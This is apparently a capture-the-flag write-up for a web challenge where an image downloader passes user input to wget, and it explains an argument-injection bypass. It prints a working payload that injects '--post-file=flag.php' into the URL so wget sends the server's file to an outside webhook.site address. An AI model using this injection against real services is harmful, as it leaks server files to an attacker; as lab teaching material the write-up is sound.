


# Category: 🌐 Web
# Difficulty: Medium
# Vulnerability: Argument Injection

---

### Description
The first thing that I did was to actually see how the downloader was working. This was done rather easily as, when clicking the `submit` button, the commands used were shown.

Further inspecting, we find out that the flag is in the file named `flag.php`.

---

### Explanation
As we can see, the program uses `wget` to download our images, but it immediately erases any file that has a `.php` suffix. This means that we can't access the flag directly.

---

### Vulnerability
With some guidance frome the mentioned video, we find out that we are dealing with **Argument Injection**. In this case, `wget` has a really interesting argument: the `--post-file` argument.

With this knowledge, we can create the following payload:

`https://webhook.site/849be86e-b4e0-4200-948a-691b5e46af2b/imagine.jpg --post-file=flag.php -v`

* **URL:** Our receiving site (Webhook.site).
* **`--post-file=flag.php`**: This argument tells `wget` that before downloading the contents of the chosen site, it should send the mentioned file through a POST request.
* **`-v`**: This stands for **Verbose**. It provides more details about the connection process, which can help ensure the command executes and provides feedback in the logs.

---